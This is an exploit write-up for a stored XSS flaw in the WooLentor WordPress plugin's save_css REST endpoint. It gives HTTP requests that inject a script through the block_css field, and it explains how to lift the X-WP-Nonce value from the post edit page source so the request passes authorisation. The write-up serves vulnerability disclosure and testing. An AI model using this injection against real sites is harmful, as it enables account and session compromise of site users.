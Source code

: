 
## Exploit

### Detect XSS

Use a user with the **contributor** role to create any post and note its ID.

Send a **POST** request to `http://localhost/wp-json/woolentor/v1/save_css` with an XSS payload:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

👉 The **X-WP-Nonce** header is missing for user authorization. Open the page source (<kbd>Ctrl</kbd>+<kbd>U</kbd>) of the post edit page:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Search for `wpApiSettings` in the source and extract the `nonce` value.

![wpApiSettings](api_search.png "wpApiSettings")

Send the request including the **X-WP-Nonce** header with the obtained value:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```
